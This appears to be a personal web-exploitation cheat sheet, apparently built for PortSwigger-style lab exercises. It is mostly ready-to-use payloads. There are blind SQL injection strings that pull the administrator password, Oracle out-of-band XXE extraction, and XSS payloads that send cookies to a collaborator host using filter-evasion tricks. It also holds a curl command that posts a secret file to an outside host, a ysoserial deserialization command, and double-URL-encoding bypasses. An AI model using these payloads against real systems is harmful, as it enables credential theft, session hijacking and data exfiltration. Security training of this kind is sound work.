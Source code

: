 # SQL Injection

```sql
-- In order by statment https://portswigger.net/support/sql-injection-in-the-query-structure
-- ASCII converts the characters to numbers
(CASE+WHEN(SELECT+ASCII(SUBSTRING(password,1,1))+FROM+users+where+username+%3d+'administrator')%3d97+THEN+AUTHOR+ELSE+TITLE+END)

-- Divides by 1 if true, 0 if not
-- Used when a number (int) was in front of the query
-- %2F = /, %2B = +, %2A = *, %2D = -
%2F(CASE+WHEN+(SELECT+SUBSTRING(password,1,1)+FROM+users+where+username+%3d+'administrator')%3d'a'+THEN+1+ELSE+0+END)

-- Detection
||(SELECT+''+FROM+dual)|| --> Oracle

-- Conditional Errors
'||+(select+case+when+(substr(password,1,1)%3d'a')+then+to_char(1/0)+else+null+end+from+users+where+username%3d+'administrator')+||' --> Oracle

-- Data extraction
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username = 'administrator')||'.<your-collaborator>/"> %remote;]>'),'/l') FROM dual)||' --> oracle
```

# XSS

```js
// No periods (.)
fetch(atob('<base64-of-your-colaborator>'), {method: 'POST', mode: 'no-cors', body:eval(atob('ZG9jdW1lbnQuY29va2ll'))})

// No parentheses
eval.call`${"fetch\x28'<your-collaborator>', {method: 'POST', mode: 'no-cors', body: document.cookie}\x29"}`
//  With base64 encoding
eval.call`${atob`YWxlcnQoMSk=`}`

// SVG to steal cookie
'"><svg/onload=fetch(`//<your-collaborator>/cookie?=${encodeURIComponent(document.cookie)}`)>
```

# Code Injection
```bash

# Curl file contents
curl -X POST <your-collaborator> -d @/home/carlos/secret

# Gzip and base64 ysoserial
java -jar ysoserial-all.jar CommonsBeanutils1 "CMD" | gzip | base64 -w0
```

# Obfuscation

## Double URL Encoding 
### The letter a = %2561
- %25 = % when decoded so it ends up as %61 which equals a
- To quickly do this in console:
  - Set the urlencoded string to a variable and use replace all:
    ```js
    // admin urlencoded is: %61%64%6d%69%6e
    > s = "%61%64%6d%69%6e"
    > s.replaceAll('%', '%25')
    // Outputs: %2561%2564%256d%2569%256e
    ```
